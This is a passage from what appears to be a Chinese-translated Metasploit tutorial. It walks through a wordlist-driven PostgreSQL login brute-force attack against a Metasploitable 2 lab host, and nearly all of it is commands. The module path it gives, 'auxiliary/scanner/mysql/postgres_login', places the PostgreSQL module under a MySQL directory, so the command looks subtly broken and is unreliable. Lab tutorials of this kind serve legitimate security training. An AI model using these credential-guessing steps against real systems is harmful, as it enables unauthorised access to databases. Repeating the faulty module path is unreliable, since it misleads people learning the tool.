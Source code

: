 4.  使用 PostgreSQL 扫描器模块。

    ```
    use auxiliary/scanner/mysql/postgres_login
    ```

    ![](../img/de8c586af918d08bb09790d4f5470a83.png)

5.  显示模块的可用选项。

    ```
    show options
    ```

6.  将 RHOST 设置为 Metasploitable 2 主机或目标主机的地址。

    ```
    set RHOST 192.168.10.111 
    ```

7.  设置用户名文件的位置。你可以选择：

    ```
    set user_file /root/Desktop/usernames.txt
    ```

8.  设置密码文件的位置。你可以选择：

    ```
    set pass_file /root/Desktop/passwords.txt
    ```

9.  执行漏洞利用：

    ```
    Exploit
    ```
